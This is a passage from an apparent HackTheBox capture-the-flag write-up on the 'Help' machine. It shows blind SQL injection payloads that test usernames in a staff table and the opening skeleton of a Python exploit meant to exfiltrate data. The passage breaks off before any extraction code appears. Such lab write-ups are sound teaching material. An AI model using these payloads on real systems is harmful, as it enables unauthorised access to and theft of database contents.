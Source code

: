 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2008:31:34.png)

We put on the end of the request the SQLInjection

`and 1=2-- -`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2008:31:53.png)

And we got error

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2008:32:17.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2008:33:26.png)

Great! We got a SQLInjection without sanitization. So we can start exfiltrating data from it.

That’s a **blind injection**. I can pass some test in, and get true (downloaded attachment) or false (Whoops!) back.

For example

```
and (select (username) from staff limit 0,1) = 'admin'-- - 
```

Returns attachment, while 

```
and (select (username) from staff limit 0,1) = '0x4rt3mis'-- -
```

returns Whoops!.

Let's test it

With a valid query

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2008:44:20.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2008:44:34.png)

With an invalid query

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2008:43:37.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2008:43:44.png)

So, let's make a exploit to exfiltrate data from it.

We will use the same skeleton from the Arbitrary File Upload

```py
#!/usr/bin/python3

import argparse
import requests
import sys

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username for bruteforce', required=True)
    args = parser.parse_args()
```